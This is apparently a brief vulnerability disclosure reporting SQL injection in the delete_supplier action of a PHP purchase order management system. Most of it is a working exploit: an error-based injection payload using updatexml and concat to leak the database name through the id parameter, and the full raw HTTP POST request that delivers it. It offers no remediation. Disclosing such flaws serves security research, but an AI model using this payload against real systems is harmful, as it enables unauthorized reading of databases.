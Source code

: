# Purchase-order-management-system v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14935/purchase-order-management-system-using-php-free-source-code.html

Vulnerability File: \purchase_order\classes\Master.php?f=delete_supplier

Vulnerability location: /purchase_order/classes/Master.php?f=delete_supplier, id

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+

```sql
POST /purchase_order/classes/Master.php?f=delete_supplier HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/purchase_order/admin/?page=items
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=sils4jibq9sp4e2n7i4joq8to7
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/160137995-2196e8f3-6e10-4ead-9082-ac8a12c0eff1.png)
